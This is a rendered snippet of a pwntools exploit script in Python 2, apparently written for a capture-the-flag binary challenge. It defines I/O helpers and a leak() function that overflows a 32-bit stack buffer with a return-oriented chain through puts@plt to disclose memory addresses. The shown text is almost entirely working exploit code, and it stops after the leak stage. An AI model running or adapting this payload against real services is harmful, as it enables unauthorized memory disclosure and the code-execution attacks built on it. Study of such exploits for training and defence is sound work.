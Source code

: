     context.log_level = True
    
    if local:
    	if atta:
    		gdb.attach(p,'b *0x0804AA49')
    		#b *0x0804887F \n 
    		#0x400b6a
    
    def ru(a):
    	return p.recvuntil(a)
    
    def sn(a):
    	p.send(a)
    
    def rl():
    	return p.recvline()
    
    def sl(a):
    	p.sendline(a)
    
    def rv(a):
    	return p.recv(a)
    
    def raddr(a,l=None):
    	if l == None:
    		return u64(rv(a).ljust(8,'\x00'))
    	else:
    		return u64(rl().strip('\n').ljust(8,'\x00'))
    
    def lg(s,addr):
    	print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))
    
    def sa(a,b):
    	p.sendafter(a,b)
    
    def sla(a,b):
    	p.sendlineafter(a,b)
    
    puts_plt = pwn_elf.plt['puts']
    vul_func = 0x0804AB88
    pop_ret = 0x08048545
    data = ''
    
    def leak(address,length=4):
    	global data
    	sl('END')
    	#tmp = rl()
    	#print 'tmp' + tmp
    	if(address%0x100 == 0xa):
    		address = address + 1
    	payload = 'A'*0x30
    	payload += p32(puts_plt) + p32(pop_ret) + p32(address)
    	payload += p32(vul_func)
    	sla('comment: ',payload)
    	up = ''
    	buf = ''
    	while True:
    		c = p.recv(numb=1, timeout=1)
    		#count += 1
    		if up == '\n' and c == "":
    			buf = buf[:-1]
    			buf += "\x00"
    			break
    		else:
    			buf += c
    		up = c
    	data = buf[:4]
    	print "%#x => %s" % (address, (data or '').encode('hex'))
    	return data